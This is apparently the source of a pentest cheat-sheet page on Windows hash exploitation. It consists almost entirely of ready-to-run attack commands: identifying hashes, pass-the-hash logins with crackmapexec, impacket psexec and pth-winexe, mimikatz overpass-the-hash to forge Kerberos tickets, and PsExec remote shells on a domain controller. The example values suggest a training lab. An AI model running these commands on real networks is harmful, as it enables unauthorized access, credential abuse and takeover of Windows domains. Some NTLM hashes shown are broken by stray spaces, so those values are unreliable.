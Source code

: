 ```yaml
---
title: Hash_exploitation
permalink: /Hash_Exploitation/Windows
---
```



## identify a hash

hashid $hash

## To connect with a hash
```crackmapexec smb $BOX -u Administrator -H $hash```  
```python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes $hash administrator@$IP_BOX cmd.exe```

## Pass the hash through smb ## 
```pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2 eb3b9f05c425e //10.11.0.22 cmd```

## Overpass the hash to gain a full Kerberos Ticket Granting Ticket (TGT) or service ticket ##
``` mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d 87aa966c327 /run:PowerShell.exe```
PS C:\Windows\system32> net use \\dc01
#created a TGT
PS C:\Windows\system32> klist
#we can use PSExec.exe which run a command remotely but does not accept password hashes.
#Though, it accepts ticket
PS C:\Tools\active_directory> .\PsExec.exe \\dc01 cmd.exe

